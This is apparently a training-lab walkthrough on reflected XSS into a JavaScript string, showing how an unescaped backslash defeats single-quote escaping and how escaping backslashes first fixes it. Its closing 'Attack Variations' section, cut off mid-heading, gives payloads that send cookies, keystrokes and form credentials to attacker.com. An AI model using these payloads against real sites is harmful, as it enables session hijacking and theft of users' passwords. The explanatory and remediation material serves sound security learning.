

---

**Difficulty:** 🟡 Practitioner

**Goal:**

- 🔍 Identify Reflected XSS vulnerability in JavaScript string context
- 🎯 Understand multiple encoding/escaping mechanisms in place
- 💉 Discover angle brackets and double quotes are HTML-encoded
- 🔗 Realize single quotes are backslash-escaped
- 🚨 Exploit by breaking string with backslash escape sequence
- 🎉 Execute `alert()` function by injecting JavaScript code to solve lab

---

## 🧠 **Concept Recap**

> **Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped** occurs when user input is reflected inside a JavaScript string literal within a `<script>` block, where the application applies multiple layers of protection: HTML-encoding `<`, `>`, and `"` characters, while backslash-escaping single quotes (`'`). However, if the application doesn't escape backslashes themselves, an attacker can inject a backslash before the closing quote to escape it, effectively breaking out of the string and injecting arbitrary JavaScript code.

### 📊 **The Vulnerability**

**Normal JavaScript string reflection:**

```html
<script>
    var searchQuery = 'USER_INPUT';
</script>
```

**Protection mechanisms in place:**

```HTML
1. Angle brackets encoded:
   < → &lt;
   > → &gt;

2. Double quotes encoded:
   " → &quot;

3. Single quotes escaped:
   ' → \'

These protections prevent:
├── </script> injection (< encoded to &lt;)
├── Breaking out with " (encoded to &quot;)
└── Breaking out with ' (escaped to \')
```

**Attempting standard attacks (BLOCKED):**

```HTML
Attack 1: Script tag injection
Input: </script>

Application encoding:
&lt;/script&gt;&lt;img src=x onerror=alert(1)&gt;

Result in script:
<script>
    var searchQuery = '&lt;/script&gt;&lt;img src=x onerror=alert(1)&gt;';
</script>

Browser behavior:
└── &lt; and &gt; are HTML entities
    └── Rendered as < and > characters IN THE STRING
        └── But not parsed as HTML tags
            └── searchQuery = "</script>" (text)
                └── No code execution ❌

Attack 2: Single quote breakout
Input: '; alert(1); '

Application escaping:
\'; alert(1); \'

Result in script:
<script>
    var searchQuery = '\'; alert(1); \'';
</script>

Browser behavior:
└── \' is escaped single quote
    └── Becomes literal ' character in string
        └── String doesn't break
            └── searchQuery = "'; alert(1); '" (text)
                └── No code execution ❌

Attack 3: Double quote attempt
Input: "; alert(1); "

Application encoding:
&quot;; alert(1); &quot;

Result in script:
<script>
    var searchQuery = '&quot;; alert(1); &quot;';
</script>

Browser behavior:
└── &quot; is HTML entity for "
    └── Becomes literal " character in string
        └── String doesn't break (still in single quotes)
            └── searchQuery = '"; alert(1); "' (text)
                └── No code execution ❌

All standard attacks BLOCKED! 🚫
```

**Successful attack using backslash injection:**

```js
Attacker discovers: Backslashes are NOT escaped!

The vulnerability:
├── Application escapes: '
├── Application encodes: < > "
└── But does NOT escape: \ ⚠️

This means:
└── We can inject a backslash
    └── Backslash can escape the application's escape
        └── Breaking the string! 💥

Step 1: Understand the escape mechanism
Normal: 'USER_INPUT'
With ': 'test\''  ← Application escapes our quote
Result: String value = "test'"

Step 2: Inject backslash before our quote
Input: test\'

Application processing:
- Sees our backslash: \
- Does NOT escape it (vulnerability!)
- Sees our quote: '
- Escapes it: \'

Result: test\\'

Step 3: What browser sees
<script>
    var searchQuery = 'test\\';
</script>
                           ↑
                           └── This quote is UNESCAPED!

Step 4: Browser parsing
'test\\'
 ↑   ↑↑↑
 |   ||└── Closing quote (UNESCAPED!)
 |   |└── Second backslash (literal \)
 |   └── First backslash (escapes second)
 └── String starts

The \\ is an escaped backslash (literal \)
The final ' CLOSES the string! ✓

Step 5: Inject JavaScript code after
Input: \'; alert(1); //

Application processing:
- Our \: Not escaped → \
- Our ': Escaped → \'
- Result: \\'; alert(1); //

In HTML:
<script>
    var searchQuery = '\\'; alert(1); //';
</script>

Step 6: Browser JavaScript parsing
var searchQuery = '\\'; alert(1); //';
                  ↑  ↑↑  ↑        ↑
                  |  ||  |        └── Start of comment
                  |  ||  └── JavaScript statement
                  |  |└── String closes HERE
                  |  └── Escaped backslash (literal \)
                  └── String starts

Execution flow:
1. var searchQuery = '\\';  ← Valid statement (string with one \)
2. alert(1);                ← EXECUTES! 💥
3. //';                     ← Comment (ignores rest)

Result: alert(1) executes! ✓
```

**Key Insight:**

```js
The critical vulnerability:

Escape sequence understanding:
└── In JavaScript strings:
    ├── \' → Escaped quote (literal ')
    ├── \\ → Escaped backslash (literal \)
    ├── \" → Escaped double quote (literal ")
    └── \n → Newline character

The attack vector:
└── Application escapes single quotes
    └── Converts ' to \'
        └── But doesn't escape our backslashes
            └── We inject \ before our quote
                └── Result: \\' (escaped backslash + unescaped quote)
                    └── String breaks! 💥

Step-by-step breakdown:

User input: \'; alert(1); //

Character-by-character processing:

Position 1: \ (backslash)
- Application check: Is it a quote? No
- Action: Pass through unchanged
- Result: \

Position 2: ' (single quote)
- Application check: Is it a quote? Yes!
- Action: Escape it with backslash
- Result: \'

Position 3-15: ; alert(1); //
- Application check: Any quotes? No
- Action: Pass through unchanged
- Result: ; alert(1); //

Final output: \\'; alert(1); //

Browser JavaScript interpretation:

Token 1: '\\' (string literal)
- Starts at first '
- Contains \\ (escaped backslash = one \)
- Ends at third character (the ')
- String value: "\"

Token 2: ; (statement separator)
- Ends previous statement
- Ready for next statement

Token 3: alert(1) (function call)
- Function: alert
- Argument: 1
- Valid JavaScript statement

Token 4: ; (statement separator)
- Ends alert statement

Token 5: // (comment)
- Everything after is comment
- Includes remaining ';
- Prevents syntax error

Complete statement:
var searchQuery = '\\'; alert(1); //';
                  └───┘  └──────┘  └──┘
                  String Function  Comment

Why this works:

Layer 1: HTML encoding protection
✅ Prevents <script> tag injection
✅ Prevents HTML tag injection
└── But we're not injecting HTML! ✓

Layer 2: Quote escaping protection
✅ Prevents breaking string with '
✅ Converts ' to \'
└── But we use \\ to bypass! 💥

Layer 3: Missing backslash escaping
❌ Doesn't escape \
❌ Our \ can escape their \
❌ Creates \\' sequence
└── String breaks! 💥

The mathematical logic:

Application's escape: ' → \'
Our bypass: \' → \\'

Result: \\'
        ↑↑↑
        ||└── Our original quote (UNESCAPED)
        |└── Application's escape backslash (ESCAPED by our \)
        └── Our injected backslash

So: \\' = (escaped backslash)(unescaped quote)
    = "\" followed by string-closing '

Why developers miss this:

Common mistake:
"I'm escaping single quotes, so strings are safe!"

Reality:
└── Escaping quotes prevents: test'; alert(1); '
    └── Becomes: test\'; alert(1); \'
        └── Quote is escaped ✓
└── But doesn't prevent: test\'; alert(1); //
    └── Becomes: test\\'; alert(1); //
        └── Our backslash escapes their backslash
            └── Quote becomes unescaped! ❌

The fix needed:
└── Escape single quotes: ' → \'
    └── AND escape backslashes: \ → \\
        └── Double escaping prevents bypass! ✓

Example with proper escaping:
Input: \'; alert(1); //
Escaped \: \\
Escaped ': \'
Result: \\\\'; alert(1); //

Browser sees:
var searchQuery = '\\\\'; alert(1); //';
                  ↑    ↑↑
                  |    |└── Application's escaped quote
                  |    └── Application's backslash
                  └── Our escaped backslash

Parsing: '\\\\' = String with two backslashes
         '; alert(1); //' = Still inside string!
No code execution ✓

The attack requirements:

For this attack to work:
1. Input reflected in JavaScript string
2. String uses single quotes: 'USER_INPUT'
3. Application escapes single quotes: ' → \'
4. Application does NOT escape backslashes: \ → \
5. We can inject: \' to create \\'
6. String breaks, JavaScript injected!

Alternative payloads:

Payload 1: \'; alert(1); //
└── Most common, clean syntax

Payload 2: \'; alert(document.domain); //
└── Shows context (useful for PoC)

Payload 3: \'; alert(document.cookie); //
└── Real attack (cookie theft)

Payload 4: \'-alert(1)-'
└── Arithmetic context bypass
└── Results in: '\\'-alert(1)-''
└── String ends, arithmetic, new string starts

All work because:
└── All inject backslash before quote
    └── All create \\' sequence
        └── All break the string
            └── All inject JavaScript! ✓

Defense evasion:

Why WAFs might miss this:
└── Payload looks benign: \'; alert(1); //
    └── Contains no <script> or HTML tags
        └── Contains no obvious XSS patterns
            └── Just backslash, quote, and JavaScript
                └── May pass through! ⚠️

Browser compatibility:
└── Works in ALL JavaScript engines
    ├── Chrome ✓
    ├── Firefox ✓
    ├── Safari ✓
    ├── Edge ✓
    └── It's fundamental JavaScript escape behavior

The beauty of this technique:
└── Exploits incomplete escaping
    └── Escaping quotes without escaping backslashes
        └── Creates recursive escape vulnerability
            └── Fundamental security flaw! 🎯
```

---
---

## 🛠️ **Step-by-Step Attack**

---

### 🔧 **Step 1 — Access Lab and Initial Exploration**

1. 🌐 Click **"Access the lab"**
2. 👀 Observe the blog homepage
3. 🔍 Locate the **search functionality**

**Homepage layout:**

```
┌────────────────────────────────────┐
│ Blog Website                       │
├────────────────────────────────────┤
│                                    │
│ [Search: _____________] [Search]   │ ← Search box
│                                    │
│ Recent Posts:                      │
│ ├── Post 1: "Security Basics"      │
│ ├── Post 2: "XSS Prevention"       │
│ └── Post 3: "JavaScript Safety"    │
│                                    │
└────────────────────────────────────┘
```

**Initial observation:**

```
✅ Search functionality present
✅ Input field visible
💡 Let's test basic reflection
```

---

### 🔎 **Step 2 — Test Basic Input Reflection**

1. 🖱️ Click in the search box
2. ✏️ Type a test query: `test123`
3. 🚀 Click **"Search"** button

**URL changes to:**

```
https://YOUR-LAB-ID.web-security-academy.net/?search=test123
```

**Page displays:**

```
┌────────────────────────────────────┐
│ Search Results                     │
├────────────────────────────────────┤
│                                    │
│ 0 search results for 'test123'     │
│                                    │
└────────────────────────────────────┘
```

**Key observation:**

```
✅ Search term appears in results
✅ Reflected in page content
💡 Need to check page source for context
```

---

### 🔬 **Step 3 — View Page Source to Find Context**

1. 🖱️ Right-click on page → **"View Page Source"** (or press Ctrl+U / Cmd+U)
2. 🔍 Search for your test string: `test123`

**Found in the source:**

```html
<!DOCTYPE html>
<html>
<head>
    <title>Blog</title>
</head>
<body>
    <section class="search">
        <form action="/" method="GET">
            <input type="text" name="search">
            <button type="submit">Search</button>
        </form>
    </section>
    
    <section class="blog-header">
        <h1>0 search results for 'test123'</h1>
    </section>
    
    <script>
        var searchQuery = 'test123';
        document.write('');
    </script>
</body>
</html>
```

**Critical discovery:**

```
🎯 INPUT REFLECTED IN JAVASCRIPT!

Location found:
<script>
    var searchQuery = 'test123';  ← HERE!
    document.write('...');
</script>

Context analysis:
├── Inside <script> tag
├── Inside JavaScript string literal
├── Surrounded by single quotes: 'USER_INPUT'
└── Vulnerable JavaScript context! 💥

This means:
└── User input goes into JavaScript variable
    └── If we can break the string
        └── We can inject JavaScript code
            └── XSS possible! 🎯
```

---

### 💉 **Step 4 — Test Angle Bracket Encoding**

Let's test if we can inject HTML tags.

1. 🔍 In search box, enter: `<test>`
2. 🚀 Click **"Search"**

**View page source:**

```html
<script>
    var searchQuery = '&lt;test&gt;';
    document.write('...');
</script>
```

**Analysis:**

```HTML
❌ Angle brackets are HTML-ENCODED!

Input: <test>
Output: &lt;test&gt;

Encoding mechanism:
├── < → &lt;
└── > → &gt;

Browser JavaScript parsing:
var searchQuery = '&lt;test&gt;';
└── &lt; and &gt; are HTML entities
    └── JavaScript sees them as part of string
        └── String value: "<test>"
            └── But not parsed as HTML tags! ✓

This prevents:
├── </script> injection
├──  injection
└── Any HTML tag injection ❌

Conclusion:
└── Cannot break out of script tag
    └── Cannot inject HTML
        └── Need pure JavaScript approach! 🎯
```

---

### 🧪 **Step 5 — Test Double Quote Encoding**

Let's test double quotes.

1. 🔍 In search box, enter: `test"quote`
2. 🚀 Click **"Search"**

**View page source:**

```html
<script>
    var searchQuery = 'test&quot;quote';
    document.write('...');
</script>
```

**Analysis:**

```
❌ Double quotes are HTML-ENCODED!

Input: test"quote
Output: test&quot;quote

Encoding mechanism:
" → &quot;

Browser JavaScript parsing:
var searchQuery = 'test&quot;quote';
└── &quot; is HTML entity for "
    └── String value: 'test"quote'
        └── Double quote is literal character
            └── String still valid (in single quotes)

This prevents:
└── Breaking out if string used double quotes
    └── But our string uses SINGLE quotes
        └── So this encoding less relevant here

Note:
└── Even if we could inject "
    └── String is in single quotes: 'text'
        └── " wouldn't break it anyway
            └── Not useful for this context
```

---

### 🎯 **Step 6 — Test Single Quote Escaping**

Let's test single quotes (the actual string delimiter).

1. 🔍 In search box, enter: `test'quote`
2. 🚀 Click **"Search"**

**View page source:**

```html
<script>
    var searchQuery = 'test\'quote';
    document.write('...');
</script>
```

**Analysis:**

```js
❌ Single quotes are BACKSLASH-ESCAPED!

Input: test'quote
Output: test\'quote

Escaping mechanism:
' → \'

Browser JavaScript parsing:
var searchQuery = 'test\'quote';
                       ↑↑
                       └┴─ Escaped quote (literal ' in string)

String value: "test'quote"
└── \' becomes a literal ' character
    └── String doesn't break
        └── Still a valid string literal ✓

This prevents:
└── Breaking string with: '; alert(1); '
    └── Would become: '\'; alert(1); \'
        └── Quotes escaped, string intact
            └── No code execution ❌

Current protection summary:
├── < > encoded → Can't inject HTML
├── " encoded → Can't use double quotes
└── ' escaped → Can't break string with quotes

Seems secure... but is it? 🤔
```

---

### 💡 **Step 7 — Test Backslash Handling (The Key!)**

Let's test what happens with backslashes.

1. 🔍 In search box, enter: `test\slash`
2. 🚀 Click **"Search"**

**View page source:**

```html
<script>
    var searchQuery = 'test\slash';
    document.write('...');
</script>
```

**Critical analysis:**

```
🎯 BREAKTHROUGH! Backslash is NOT ESCAPED!

Input: test\slash
Output: test\slash

No escaping:
└── \ → \ (passed through unchanged!)

This is the VULNERABILITY:
└── Application escapes quotes: ' → \'
    └── But doesn't escape backslashes: \ → \
        └── We can use \ to manipulate escaping! 💥

Why this matters:

JavaScript escape sequences:
├── \' → Escaped single quote (literal ')
├── \\ → Escaped backslash (literal \)
├── \n → Newline
├── \t → Tab
└── etc.

The attack vector:
└── We inject: \'
    └── Application escapes our ': \\'
        └── Result: \\'
            └── This is: (escaped backslash)(unescaped quote)
                └── String BREAKS! 💥

Let's verify this theory...
```

---

### 🔬 **Step 8 — Test Backslash + Quote Injection**

Let's test injecting backslash before a quote.

1. 🔍 In search box, enter: `test\'`
2. 🚀 Click **"Search"**

**View page source:**

```html
<script>
    var searchQuery = 'test\\';
</script>
```

**Detailed analysis:**

```js
🎯 STRING BREAKS!

Input: test\'

Character-by-character processing:

Our input:
t e s t \ '
↑ ↑ ↑ ↑ ↑ ↑
| | | | | └── Our single quote
| | | | └── Our backslash
| | | └── Regular char
| | └── Regular char
| └── Regular char
└── Regular char

Application processing:
1. Processes: test → Output: test
2. Processes: \ → NOT escaped → Output: \
3. Processes: ' → Escaped with \ → Output: \'

Final result: test\\'

Browser sees:
<script>
    var searchQuery = 'test\\';
</script>

JavaScript parsing:
var searchQuery = 'test\\';
                  ↑    ↑↑↑
                  |    ||└── This quote CLOSES the string!
                  |    |└── Second backslash (literal)
                  |    └── First backslash (escapes second)
                  └── String starts

Escape sequence breakdown:
'test\\'
     ↑↑
     └┴─ This is \\ (escaped backslash)

Result:
└── '\\' is a complete string
    └── String value: "\"  (one backslash)
        └── The final ' CLOSES the string! ✓

The remaining code:
var searchQuery = 'test\\';
                          ↑
                          └── After this, we're OUTSIDE the string!

This means:
└── We've broken out of the string context
    └── Can inject JavaScript code after
        └── XSS achieved! 💥

View in browser console:
F12 → Console tab
You might see syntax error (incomplete statement)
But this confirms string is breaking! ✓
```

---

### 🛠️ **Step 9 — Construct Complete JavaScript Payload**

Now let's inject actual JavaScript code after breaking the string.

**Payload construction:**

```r
Goal: Execute alert(1)

Strategy:
1. Break the string: \'
   └── Creates: \\'
       └── String closes

2. Add JavaScript code: alert(1)
   └── Executes when string ends

3. Handle syntax errors: //
   └── Comments out remaining code

Complete payload: \'; alert(1); //

Breakdown:
\' → Breaks string (creates \\')
;  → Statement separator
alert(1) → JavaScript to execute
;  → Statement separator
// → Comment (hides remaining ')

Why // is important:
└── Original code: var searchQuery = 'USER_INPUT';
    └── After our payload: var searchQuery = 'test\\'; alert(1); //';
        └── The final '; would cause syntax error
            └── // makes it a comment
                └── Prevents error! ✓
```

**Payload details:**

```r
Payload: \'; alert(1); //

Character-by-character:
\ → Our backslash (not escaped)
' → Our quote (escaped to \' by app)
; → Semicolon (statement separator)
  → Space
a → Start of alert
l → 
e →
r →
t →
( →
1 →
) → End of alert
; → Statement separator
  → Space
/ → Start of comment
/ → Comment marker

Application processing:
Input: \'; alert(1); //
Our \: → \
Our ': → \' (escaped)
Rest: → ; alert(1); //

Result: \\'; alert(1); //

In HTML:
<script>
    var searchQuery = '\\'; alert(1); //';
    document.write('...');
</script>

Browser JavaScript parsing:

Statement 1:
var searchQuery = '\\';
└── Valid: Variable assigned string with one backslash

Statement 2:
alert(1);
└── Valid: Function call
└── EXECUTES! 💥

Statement 3:
//';  (and rest)
└── Comment: Everything after // ignored
└── Prevents syntax errors

Complete execution flow:
1. Declare variable: searchQuery = "\"
2. Execute: alert(1) 💥
3. Comment out rest: // document.write(...)
```

---

### 🧪 **Step 10 — Test the Complete Payload**

1. 🔍 In search box, enter:

```r
\'; alert(1); //
```

2. 🚀 Click **"Search"**

**Expected behavior:**

```HTML
Browser loads page
         ↓
HTML parser reads <script> tag
         ↓
JavaScript parser processes:
var searchQuery = '\\'; alert(1); //';
         ↓
Parses as three parts:
1. var searchQuery = '\\';  ← Assignment
2. alert(1);                ← Function call
3. //';                     ← Comment
         ↓
Executes statement 2
         ↓
alert(1) runs! 💥
```

**Alert popup appears:**

```
┌────────────────────────────────────┐
│ This page says:                    │
│                                    │
│ 1                                  │
│                                    │
│            [OK]                    │
└────────────────────────────────────┘
```

**Success indicators:**

```r
✅ Alert popup displays
✅ Shows "1"
✅ Executes automatically on page load
✅ XSS successful! 🎉

Verification in page source:
<script>
    var searchQuery = '\\'; alert(1); //';
    document.write('...');
</script>

Verification in DevTools (F12):
├── Console tab:
│   └── May show the alert
│   └── No syntax errors (// comments out rest)
└── Elements tab:
    └── Shows the <script> tag with our payload
```

---

### 🔍 **Step 11 — Understanding Why It Works**

**Deep dive into the escape sequence:**

```js
The escaping dance:

Step 1: We input
\'; alert(1); //

Step 2: Application sees backslash
Character: \
Is it a quote? No
Action: Pass through
Result: \

Step 3: Application sees quote
Character: '
Is it a quote? Yes!
Action: Escape with backslash
Result: \'

Step 4: Application sees rest
Characters: ; alert(1); //
Any quotes? No
Action: Pass through
Result: ; alert(1); //

Step 5: Complete result
\\'; alert(1); //

Step 6: Browser interprets

JavaScript engine tokenization:
Token 1: 'test\\'
- String literal
- Contains: test\ (one backslash)
- Ends at: second quote

Token 2: ;
- Statement terminator

Token 3: alert
- Identifier (function name)

Token 4: (1)
- Function call with argument

Token 5: ;
- Statement terminator

Token 6: //
- Single-line comment start

Token 7: '; document.write(...)
- Comment content (ignored)

Execution:
1. Create variable searchQuery = "test\"
2. Call function alert(1) 💥
3. Ignore comment
```

**The mathematical proof:**

```js
Application's escape rule:
f(') = \'

Our input:
\'

Application applies f to our quote:
\' → \\'

Result analysis:
\\' = (escaped backslash)(unescaped quote)

In JavaScript:
\\ = One literal backslash character
' = String delimiter (closes string)

So: 'text\\'  is a complete string
    'text\\'  followed by ' is string + quote
    'text\\'; is string + semicolon + ...

The vulnerability equation:
If app escapes quotes but not backslashes:
→ User can inject \' 
→ App produces \\'
→ String breaks
→ Code injection possible! ✓
```

---

### ✅ **Step 12 — Lab Completion**

**If you see the alert, the lab is automatically solved!**

**Completion banner:**

```
┌─────────────────────────────────────┐
│  ✅ Congratulations!                │
│                                     │
│  You successfully exploited         │
│  reflected XSS by using backslash   │
│  injection to break out of a        │
│  JavaScript string despite quote    │
│  escaping and HTML encoding.        │
│                                     │
│  Lab: Reflected XSS into a          │
│       JavaScript string with angle  │
│       brackets and double quotes    │
│       HTML-encoded and single       │
│       quotes escaped                │
│  Status: SOLVED ✓                   │
└─────────────────────────────────────┘
```

---

## 🔗 **Complete Attack Chain**

```r
Step 1: Access lab
         ↓
Step 2: Test search functionality
         → search=test123 → Reflected in page ✓
         ↓
Step 3: View page source
         → Find: <script> var searchQuery = 'test123'; </script>
         → Context: JavaScript string literal! 🎯
         ↓
Step 4: Test angle bracket encoding
         → Input: <test>
         → Output: &lt;test&gt;
         → Angle brackets HTML-encoded! ❌
         → Can't inject </script> tag
         ↓
Step 5: Test double quote encoding
         → Input: test"quote
         → Output: test&quot;quote
         → Double quotes HTML-encoded! ❌
         → Not useful (string in single quotes)
         ↓
Step 6: Test single quote escaping
         → Input: test'quote
         → Output: test\'quote
         → Single quotes backslash-escaped! ❌
         → Can't break string with '
         ↓
Step 7: Test backslash handling
         → Input: test\slash
         → Output: test\slash
         → Backslash NOT escaped! ✓
         → VULNERABILITY FOUND! 💥
         ↓
Step 8: Test backslash + quote
         → Input: test\'
         → Output: test\\'
         → Creates: escaped backslash + unescaped quote
         → String BREAKS! ✓
         ↓
Step 9: Construct JavaScript payload
         → \'; alert(1); //
         → Breaks string with \\'
         → Injects alert(1)
         → Comments out rest with //
         ↓
Step 10: Test payload
         → Submit: \'; alert(1); //
         → Browser parses: '\\'; alert(1); //';
         → First statement: var searchQuery = '\\';
         → Second statement: alert(1); 💥
         → Third part: //'; (comment)
         ↓
Step 11: Understand execution
         → String contains one backslash
         → String closes properly
         → alert(1) executes outside string
         → Comment prevents syntax errors
         ↓
Step 12: Lab solved! 🎉
```

---

## ⚙️ **Understanding the Vulnerability**

### **JavaScript String Escape Sequences**

```js
How JavaScript handles escapes:

Basic escape sequences:
├── \' → Single quote character (')
├── \" → Double quote character (")
├── \\ → Backslash character (\)
├── \n → Newline
├── \t → Tab
├── \r → Carriage return
└── \0 → Null character

The escape mechanism:
└── Backslash (\) is the ESCAPE CHARACTER
    └── Next character is treated specially
        └── Together they form an ESCAPE SEQUENCE

Examples:

Example 1: Simple string with quote
Code: var x = 'It\'s working';
Parsing:
- String starts: '
- Characters: I, t
- Escape sequence: \'  (becomes ')
- Characters: s,  , w, o, r, k, i, n, g
- String ends: '
Result: x = "It's working"

Example 2: String with backslash
Code: var x = 'Path: C:\\Users';
Parsing:
- String starts: '
- Characters: P, a, t, h, :,  , C, :
- Escape sequence: \\  (becomes \)
- Characters: U, s, e, r, s
- String ends: '
Result: x = "Path: C:\Users"

Example 3: Backslash before quote (our attack!)
Code: var x = 'test\\';
Parsing:
- String starts: '
- Characters: t, e, s, t
- Escape sequence: \\  (becomes \)
- String ENDS: '  ← This quote closes the string!
Result: x = "test\"

The critical insight:
└── \\ consumes BOTH backslashes
    └── Leaves the next quote UNESCAPED
        └── That quote closes the string! ✓

Why the attack works:

Our input: \'
App escapes our quote: \\'

Browser sees: \\' 
JavaScript interprets:
- \\ = One backslash (escaped)
- ' = String delimiter (closes string)

So: 'text\\' is a COMPLETE string
    'text\\'; is string + more code! 💥

The escape table:

Input    App Output    JS Interprets    Result
-----    ----------    --------------   ------
'        \'            ' in string      ✓ Safe
\'       \\'           \ + close quote  ✗ Breaks!
\\       \\            \ in string      ✓ Safe
\\'      \\\\'         \\ + ' in string ✓ Safe

The vulnerability:
└── When input can contain \
    └── And app escapes '
        └── But doesn't escape \
            └── User can create \\'
                └── String breaks! ⚠️
```

---

### **Why Partial Escaping Fails**

```js
The security layers:

Layer 1: HTML encoding
✅ Encodes: < > "
✅ Prevents: HTML tag injection
✅ Prevents: </script> breakout
└── Effective for HTML context

Layer 2: JavaScript quote escaping
✅ Escapes: '
✅ Prevents: '; alert(1); '
✅ Prevents: Simple quote breakout
└── Effective IF backslashes also escaped

Layer 3: Backslash handling
❌ Does NOT escape: \
❌ Allows: \' input
❌ Creates: \\' output
└── VULNERABILITY! 💥

The incomplete protection:
└── Escaping quotes without escaping backslashes
    └── Is like locking the door
        └── But leaving the window open! ⚠️

Why this is missed:

Developer thinking:
"I'm escaping single quotes, so:
 - User inputs: '
 - I convert to: \'
 - String stays intact ✓
 - Therefore secure!"

Developer missed:
"But user can input: \
 - I DON'T escape it: \
 - When user adds quote: \'
 - I escape the quote: \\'
 - Now I have: escaped-backslash + unescaped-quote
 - String BREAKS! ✗"

The correct approach:
└── Must escape BOTH \ and '
    └── Order matters: Escape \ FIRST, then '
        └── Double escaping prevents bypass! ✓

Example of correct escaping:

Input: \'; alert(1); //

Step 1: Escape backslashes first
\'; alert(1); //
↓
\\'; alert(1); //  (\ → \\)

Step 2: Escape quotes second
\\'; alert(1); //
↓
\\\'; alert(1); //  (' → \')

Step 3: Final result
\\\\\'; alert(1); //

Browser interprets:
var x = '\\\\\'; alert(1); //';
         ↑    ↑↑
         |    |└── Escaped quote (literal ')
         |    └── Escaped backslash (literal \)
         └── Escaped backslash (literal \)

String value: "\\' ; alert(1); //"
└── All text inside string
    └── No code execution ✓

The escaping must be comprehensive:

Insufficient:
├── Escape only quotes → Bypassed with \
├── Escape only < > → Bypassed with quote breakout
└── Partial encoding → Various bypasses possible

Sufficient:
├── Escape backslashes AND quotes
├── Use proper encoding for context
└── Apply defense in depth ✓
```

---

### **The Backslash Escape Chain**

```js
Understanding the escape chain:

What happens with multiple backslashes:

Single backslash:
Input: \
Output: \ (not escaped)
In string: 'text\' → Syntax error (incomplete escape)

Double backslash:
Input: \\
Output: \\ (both not escaped)
In string: 'text\\' → One backslash in string ✓

Our payload:
Input: \'
Processing:
- First char: \ (not escaped) → \
- Second char: ' (escaped) → \'
Output: \\'
In string: 'text\\' → Complete string! ✓
           'text\\'  → Then comes unescaped code

The chain reaction:

Normal quote escaping:
User: '; alert(1); '
App: \'; alert(1); \'
Result: '\'; alert(1); \''
└── Quote escaped ✓
    └── String intact ✓
        └── No execution ✓

With backslash injection:
User: \'; alert(1); //
App: \\'; alert(1); //
Result: '\\'; alert(1); //';
└── Backslash escaped by itself ✓
    └── Quote becomes unescaped ✗
        └── String breaks ✗
            └── Code executes! ✗

The mathematical sequence:

Let E = escape function
Let ' = quote character
Let \ = backslash character

App's rule: E(') = \'

User inputs: \'
App processes:
- E(\) = \ (no escaping)
- E(') = \'

Result: \\'

Interpretation:
\\ = Escaped backslash
' = Unescaped quote (closes string)

Proof of vulnerability:
If E(\) ≠ \\ 
AND E(') = \'
Then user can inject \'
Which becomes \\'
Which breaks string! ✓

The fix:
E(\) = \\
E(') = \'

Then:
User inputs: \'
App processes:
- E(\) = \\
- E(') = \'

Result: \\\\'

Interpretation:
\\\\ = Two escaped backslashes (two \ chars)
\' = Escaped quote (' char in string)

String stays intact! ✓
```

---

## 🚀 **Attack Variations**

### **Variation 1: Cookie Stealing**

```js
Real attack payload:

\'; alert(document.cookie); //

Purpose:
└── Displays victim's cookies

Result in script:
<script>
    var searchQuery = '\\'; alert(document.cookie); //';
</script>

Execution:
└── searchQuery = "\"
    └── alert(document.cookie) executes
        └── Shows cookies in alert 💥

Better exfiltration:
\'; new Image().src='https://attacker.com/steal?c='+document.cookie; //

Purpose:
└── Sends cookies to attacker server

Execution:
└── Creates invisible image
    └── Image src includes cookie
        └── Browser sends request to attacker
            └── Cookie stolen! 💀

URL-encoded version (for URL parameter):
%5C%27%3B%20new%20Image().src%3D%27https%3A%2F%2Fattacker.com%2Fsteal%3Fc%3D%27%2Bdocument.cookie%3B%20%2F%2F
```

---

### **Variation 2: Keylogger Installation**

```js
Persistent keylogger payload:

\'; document.onkeypress=e=>fetch('https://attacker.com/log?k='+e.key); //

Purpose:
└── Logs every keystroke

How it works:
<script>
    var searchQuery = '\\'; 
    document.onkeypress=e=>fetch('https://attacker.com/log?k='+e.key); 
    //';
</script>

Execution:
1. searchQuery assigned
2. Global keypress handler installed
3. Every key pressed sends request
4. Attacker receives all keystrokes 💀

Impact:
└── User continues browsing
    └── Every key captured
        └── Passwords, messages, credit cards
            └── Long-term data theft! ⚠️

Alternative (using Image):
\'; document.onkeypress=e=>new Image().src='https://attacker.com/log?k='+e.key; //

Why Image better:
└── No CORS preflight
    └── More reliable
        └── Works cross-origin ✓
```

---

### **Variation 3: Form Hijacking**

```js
Form interception payload:

\'; document.querySelectorAll('form').forEach(f=>f.action='https://attacker.com/grab'); //

Purpose:
└── Redirects all form submissions

How it works:
Page has login form:
<form action="/login" method="POST">
    <input name="username">
    <input name="password">
</form>

After XSS:
<form action="https://attacker.com/grab" method="POST">
    <input name="username">
    <input name="password">
</form>

Impact:
User submits form
         ↓
Credentials sent to attacker
         ↓
Not sent to legitimate server
         ↓
User may try again (thinks it failed)
         ↓
Attacker has credentials! 💀

Advanced version (with forwarding):
\'; document.querySelectorAll('form').forEach(f=>f.addEventListener('submit',e=>{fetch('https://attacker.com/grab',{method:'POST',body:new FormData(f)})})); //

Benefits:
└── Intercepts submission
    └── Sends copy to attacker
        └── Still submits to real server
            └── User doesn't notice! ✓
```

---

### **Variation 4: Page Defacement**

```js
Defacement payload:

